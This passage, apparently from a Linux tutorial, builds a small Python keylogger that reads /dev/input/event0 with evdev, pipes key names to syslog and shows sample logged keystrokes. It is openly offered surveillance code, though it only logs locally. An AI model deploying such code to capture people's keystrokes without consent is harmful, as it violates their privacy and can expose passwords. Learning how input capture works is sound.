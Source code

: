 Now let's write our Python program that reads events from the input device `/dev/input/event0`. It reads 16 B at a time representing seconds, microseconds, type, code and value. Since we want to print only one event when the keyboard is pressed, we create an event only in the case when the type has the value 1 and the value and also the value 1. Now we convert the key code into a text description, for which we need the [`evdev`](https://pypi.org/project/evdev/) library and write the event to the standard output. Then we enable the execution of the program with the command [`chmod`](https://www.man7.org/linux/man-pages/man1/chmod.1.html).

    apt update
    apt install python3-evdev

    nano keylogger.py
    
    #!/usr/bin/env python3

    from evdev import ecodes
    import struct
    import sys

    with open("/dev/input/event0", "rb") as f:
            while True:
                    d = f.read(16)
                    sec, usec, type, code, value = struct.unpack("IIhhi", d)
                    if type == 1 and value == 1:
                            print(ecodes.KEY[code])
                            sys.stdout.flush()    
    
    chmod +x keylogger.py

Now let's test the operation by running our program in one command line window and redirecting its output to the `logger` program. In the second window of the command line, we start printing system logs `/var/log/syslog` in real time and start pressing any keys on the keyboard.

    ./keylogger.py | logger

    tail -f /var/log/syslog

    Apr  4 22:22:26 debian aleks: KEY_T
    Apr  4 22:22:27 debian aleks: KEY_H
    Apr  4 22:22:27 debian aleks: KEY_I
    Apr  4 22:22:28 debian aleks: KEY_S
    Apr  4 22:22:28 debian aleks: KEY_SPACE
    Apr  4 22:22:29 debian aleks: KEY_I
    Apr  4 22:22:29 debian aleks: KEY_S
    Apr  4 22:22:30 debian aleks: KEY_SPACE
    Apr  4 22:22:30 debian aleks: KEY_A
    Apr  4 22:22:30 debian aleks: KEY_SPACE
    Apr  4 22:22:31 debian aleks: KEY_T
    Apr  4 22:22:31 debian aleks: KEY_E
    Apr  4 22:22:32 debian aleks: KEY_S
    Apr  4 22:22:32 debian aleks: KEY_T
